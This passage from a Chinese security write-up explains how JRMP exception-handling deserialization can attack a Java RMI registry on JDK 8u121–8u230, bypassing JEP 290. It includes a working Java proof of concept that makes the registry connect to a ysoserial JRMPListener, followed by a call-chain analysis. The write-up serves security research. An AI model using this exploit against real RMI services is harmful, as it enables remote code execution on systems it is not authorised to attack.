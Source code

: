 #### 攻击注册中心（8u121~8u230）
除了攻击客户端之外，JRMP 协议异常处理反序列化**还可以用于攻击注册中心**。在这种利用方式在 [RMI-JEP290的分析与绕过-安全客 - 安全资讯平台](https://www.anquanke.com/post/id/259059#h2-3) 这篇文章中进行了详细的阐述。

主要利用思想在于: 
>RemoteObject 类（及其没有实现 readObject 方法的子类）经过反序列化可以通过内部的 UnicastRef 对象发起 JRMP 请求连接恶意的 Server。

测试利用代码如下，其中 12345 端口是 ysoserial JRMPListener 服务。
```java
import sun.rmi.server.UnicastRef;
import xyz.eki.marshalexp.rmi.utils.RemoteUtils;

import javax.management.remote.rmi.RMIConnectionImpl_Stub;
import java.rmi.server.ObjID;

public class AttackRegistryByJRMPListener {
    public static void main(String[] args) {
        try {
            String registryHost = "127.0.0.1";
            int registryPort = 1099;
            String JRMPHost = "127.0.0.1";
            int JRMPPort = 12345;

            //利用 RMIConnectionImpl_Stub
            java.rmi.server.ObjID objId = new java.rmi.server.ObjID();
            sun.rmi.transport.tcp.TCPEndpoint endpoint = new sun.rmi.transport.tcp.TCPEndpoint(JRMPHost, JRMPPort);
            sun.rmi.transport.LiveRef liveRef = new sun.rmi.transport.LiveRef(objId, endpoint, false);
            UnicastRef ref = new sun.rmi.server.UnicastRef(liveRef);

            RMIConnectionImpl_Stub remote = new RMIConnectionImpl_Stub(ref);

            ObjID objID_ = new ObjID(0);

            //Bind(null,payloadObj)
            RemoteUtils.sendRawCall(registryHost,registryPort,objID_,0,4905912898345647071L,null,remote);

        }catch (Throwable t){
            t.printStackTrace();
        }
    }
}
```
下面是简要的原理分析，具体跟踪调用过程可见文章 [RMI-JEP290的分析与绕过-安全客 - 安全资讯平台](https://www.anquanke.com/post/id/259059#h2-3)
1. 在 RegistryImpl_Skel.dispatch bind 分支反序列化参数时，最终会进入 RemoteObject.readObject 方法进行反序列化。
2. RemoteObject.readObject 方法中会调用 readExternal 方法。
3. 而 readExternal 方法最终调用到 LiveRef 类的 read 方法。进而调用 saveRef 将远程对象的 LiveRef（标识信息、通信地址）存放在 ConnectionInputStream 实例中。
